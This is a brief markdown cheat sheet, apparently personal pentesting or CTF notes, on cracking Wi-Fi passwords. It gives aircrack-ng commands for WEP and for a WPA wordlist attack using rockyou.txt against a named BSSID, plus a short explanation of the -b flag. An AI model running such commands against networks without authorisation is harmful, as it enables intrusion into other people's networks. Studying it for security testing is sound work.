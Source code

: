# Wi-Fi Cracking

# WEP

1. Capture the handshake via Wireshark

```
aircrack-ng filename

```

2. Run the command above and the password is cracked

# WPA

1. Capture handshake via Wireshark

```

aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C0:4A:00:80:76:E4 PCAP3.cap

```

2. Run the above command and the password is cracked

-b C0:4A:00:80:76:E4 Breakdown: The -b flag specifies the BSSID (MAC address) of the target access point you want to attack.

The BSSID is unique to each access point, so it helps Aircrack-ng focus on cracking only the packets associated with that specific network.
